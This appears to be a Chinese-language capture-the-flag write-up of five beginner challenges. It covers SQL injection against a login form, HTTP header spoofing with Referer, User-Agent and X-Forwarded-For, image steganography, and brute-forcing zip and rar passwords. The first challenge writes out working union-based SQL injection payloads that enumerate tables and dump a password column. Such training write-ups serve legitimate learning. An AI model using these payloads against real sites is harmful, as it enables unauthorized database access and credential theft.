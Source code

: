 1.

先使用1',发现有回显，是单引号闭合，尝试万能用户名，密码随便

    ' or 1=1#
![c69b31ea406247cae07281f3b68f95f.png](https://s2.loli.net/2024/05/11/SAsObUX216v9lng.png)

得到用户名是admin,以及密码，但是输入后错误
然后我们使用万能密码，用户名使用admin

    ' union select 1,2,database()#

![889ea5f0bee8f8dc20b466f8569d5c1.png](https://s2.loli.net/2024/05/11/hTx2zSUl7B4s9w5.png)

登陆成功，并且得到了数据库geek,接着去拿数据库的表

   `' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())#` 
![b5f755f35770cc8b5829e900c266d2c.png](https://s2.loli.net/2024/05/11/so7jH15VmaATgWz.png)

拿到geekuser和l0ve1ysq1两张表，根据题目我们能猜到flag在第二张表里，去拿表里的字段
    `' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_schema=database())#`
![53dc054dd74c2aefaa44e06db42b4c9.png](https://s2.loli.net/2024/05/11/VpLvAG4kWf2bqcH.png)

爆出了字段id username password,去找字段里的内容
    `' union select 1,2,(select group_concat(passwprd) from l0ve1ysq1)#`

![505272ddc1c67b2c631688c6cac88f2.png](https://s2.loli.net/2024/05/11/eCjdtx9suNHQa13.png)

成功拿到flag  

2.

![8afe360f90a7e75025f51005340dbcd.png](https://s2.loli.net/2024/05/11/gu5tMqJEI4YTdCi.png)

进去查看页面源代码，发现一个a标签，点进网页

![16daef28b6f8f77cc809164d57556c1.png](https://s2.loli.net/2024/05/11/VUgZETpBN3tky81.png)

![ea4958baaf77e0910fb7abed63db554.png](https://s2.loli.net/2024/05/11/bAZ5Fs3Va7xCSkQ.png)

因本题考查http协议相关内容，所以我们用bp抓包，根据题目提示添加referer,再发送看到

![19cdc73b930c367212fe044874a9576.png](https://s2.loli.net/2024/05/11/DGQ6l9RjpLZba7u.png)

将UA头修改后发送

![9b141660d7975e7a8f269191bca3b42.png](https://s2.loli.net/2024/05/11/jblqEBxSvnZVPY1.png)

提示从本地访问，添加X-Forwarded-For: 127.0.0.1

![ea5a8e0171372ef2cd00bf49cb28a2b.png](https://s2.loli.net/2024/05/11/H5mOoTIManBYvcj.png)

拿到flag

3.
将图片拖入010，在底部发现一串二进制数

![baf18500a3c5343a3d6eeec336c96fc.png](https://s2.loli.net/2024/05/12/c7w64XYtLFp1RjM.png)

ASCll码转字符串

![785409cc083ce29023afebb5e822909.png](https://s2.loli.net/2024/05/12/Xgjuaskmznl3txb.png)

拿到flag

4.

![a9c58a10395a886a2f493b598bae76f.png](https://s2.loli.net/2024/05/12/p1BIEPdy7tLCUln.png)

下载附件是一张图片

![9e3ec8c2-38c7-41cf-b5d7-abe7872de4c3.jpg](https://s2.loli.net/2024/05/12/F63BuwqiPosJ9rt.jpg)

拖入010中发现有隐藏的zip文件

![22254bcb80aec0725f17c6c59082320.png](https://s2.loli.net/2024/05/12/QYGPpC2gOWqT9xR.png)

这时我们打开kali,使用binwalk确认是否存在隐藏文件

![32b5db9d05cbc89c8fc2f4d92bcaf20.png](https://s2.loli.net/2024/05/12/rimXwusMZRW7Tlj.png)

使用foremost分离出文件，点击zip文件发现需要密码

![cd649c17300ba0dd0951b7d2ca6c0da.png](https://s2.loli.net/2024/05/12/tpCH2bRnkgG3PZl.png)

根据题目中的描述，秋明喜欢四位数，使用fcrackzip爆破

![3d7eee72f442c166996f82bb991c50c.png](https://s2.loli.net/2024/05/12/K6AJ49CgEnmeSN1.png)

成功拿到密码，输入后

![bdc6e5565507f5e543ef356565b2efd.png](https://s2.loli.net/2024/05/12/nBV5fabi94rhFWL.png)

拿到flag

5.

![35c1fdfe1efa5306c5f348e7b693f94.png](https://s2.loli.net/2024/05/12/yK1htJDB9uqAbEi.png)

使用kali分离出rar文件

![cba262bc84bd81701e87c04032e445f.png](https://s2.loli.net/2024/05/12/ScWHvm1TnMs3fNB.png)

![61dcfa624932453d08b8e66ca497b3f.png](https://s2.loli.net/2024/05/12/o6QOCpdfKyx4jL7.png)

发现需要密码，题目中说是四位纯数字密码，我们下载rarcrack工具，先使用vim编辑

![a13cfa5eedc32e7200523249f6b28f1.png](https://s2.loli.net/2024/05/12/N5gbOhszvSwdyE9.png)

再用rarcrack爆破到密码为7869

![1375745fe65d92ad62a0f5495f87755.png](https://s2.loli.net/2024/05/12/3OlX6PMoRuCEIpa.png)

输入后成功拿到flag

![e2432bba01734f2207d8b67ea6ea0bc.png](https://s2.loli.net/2024/05/12/GIfUoOza9uEP6Zv.png)
